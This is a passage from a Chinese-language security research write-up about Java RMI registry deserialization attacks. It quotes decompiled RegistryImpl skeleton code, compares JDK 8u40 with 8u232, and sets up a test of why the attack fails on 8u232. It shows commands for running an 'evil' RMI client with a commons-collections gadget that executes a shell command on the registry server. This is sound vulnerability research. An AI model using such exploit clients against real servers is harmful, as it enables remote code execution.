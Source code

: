 ```java
    localRegistryImpl.rebind((String)localObject1, localRemote);
    try
    {
      paramRemoteCall.getResultStream(true);
    }
    catch (IOException localIOException5)
    {
      throw new MarshalException("error marshalling return", localIOException5);
    }
  case 4:
...
  default:
    throw new UnmarshalException("invalid method number");
  }
}
```

相比8u40，8u232的RegistryImpl.bind()、RegistryImpl.rebind()不再调用
RegistryImpl.checkAccess()。

前面这些分析只是满足个人好奇心，不看也罢。要点已合并到"8) 简化版调用关系"
中，可以提纲挈领式地看到全貌。

12) 8u232为什么失败

假设目录结构是:
.
|
+---test2
|       RMIRegistryServer.class
|       commons-collections-3.1.jar
|
\---test3
        EvilRMIRegistryClientWithBadAttributeValueExpException3.class
        GeneralInvocationHandler3.class
        commons-collections-3.1.jar

在test2目录执行:

java \
-Djava.rmi.server.hostname=192.168.65.23 \
-cp "commons-collections-3.1.jar:." \
RMIRegistryServer 1099

这次用8u232启动RMIRegistryServer。

在test3目录执行:

java \
-cp "commons-collections-3.1.jar:." \
EvilRMIRegistryClientWithBadAttributeValueExpException3 192.168.65.23 1099 \
"/bin/touch /tmp/scz_is_here"
